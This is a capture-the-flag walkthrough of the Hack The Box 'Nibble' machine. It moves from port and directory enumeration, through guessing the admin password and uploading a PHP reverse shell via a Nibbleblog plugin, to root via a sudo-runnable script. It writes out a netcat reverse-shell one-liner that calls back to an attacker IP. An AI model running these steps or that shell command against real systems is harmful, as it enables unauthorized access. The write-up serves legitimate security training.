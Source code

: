 ```yaml
---
title: "Nibble [HTB Walkthrough]"
date: 2022-05-09T19:08:29+08:00
draft: false
tags: ["HTB", "Easy"]
---
```


---

### Knowledge Gained 🙉
- sudo
- gobuster


---

## Enumeration

First, we start off a rustscan scan and the scan returned 2 open ports, port 22 SSH and port 80 HTTP.

```
rustscan -a 10.10.10.75
```

![](../../img/nib1.png)

I visited the HTTP server and its just a empty page with one line of text.

![](../../img/nib2.png)

I then checked the source code of the website and found that theres a line of **commented code** pointing to `/nibbleblog`

![](../../img/nib3.png)

I then followed to visit the page and it seems like a **blog** page.

![](../../img/nib4.png)

Next, I ran `gobuster` to find for more directories. There are a few interesting sub-directories..

```
gobuster dir -u http://10.10.10.75/nibbleblog -t 40 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x php,txt

```

## Foothold

![](../../img/nib5.png)

I first visited the `admin.php` page, seems like a login page for the admin panel. I tried the default creds for nibbleblog, but none of them worked.

![](../../img/nib6.png)

I then move on to the `/content` page and found something interesting. Under the `/private/user.xml` file, there is some info about the user account. It seems like the username of the account is `admin`.

![](../../img/nib7.png)

Now we need admin credentials. When I’m presented with an enter credentials page, the first thing I try is **common credentials** (admin/admin, admin/nibbles, nibbles/nibbles, nibbles/admin). If that doesn’t work out, I look for **default credentials** online that are specific to the technology. Last, I use a password cracker if all else fails. In this case, the common credentials `admin:nibbles` worked!

Next, I searched and see if I could find any exploit related to nibbleblog, and I found one [exploit](https://ranakhalil101.medium.com/hack-the-box-nibbles-writeup-w-o-metasploit-499ae2517ccd) that we could possibly use.

![](../../img/nib8.png)

According to the exploit, we could upload a php shell through the **image plugins**, so I followed the POC and uploaded a reverse PHP shell I got from [pentestmonkey](https://github.com/pentestmonkey/php-reverse-shell)

![](../../img/nib9.png)

Then I set up a listener and invoke the reverse shell. BOOOM! We got a reverse shell back!

![](../../img/nib10.png)

While getting the user flag, I noticed there is a `personal.zip` file in the user directory also. I unzip the file and found a script inside. After using `sudo -l` , it appears that we can run this script as `sudo`! So what we need to do next is just replace the `monitor.sh` script with a reverse shell code.

![](../../img/nib11.png)

I replaced the monitor.sh file with the code I got from [pentestmonkey](https://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet) also: 

```
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.8 9002 >/tmp/f
```

And thats it, we have succesfully rooted this box!

![](../../img/nib12.png)

Thats all for this box, thanks for reading!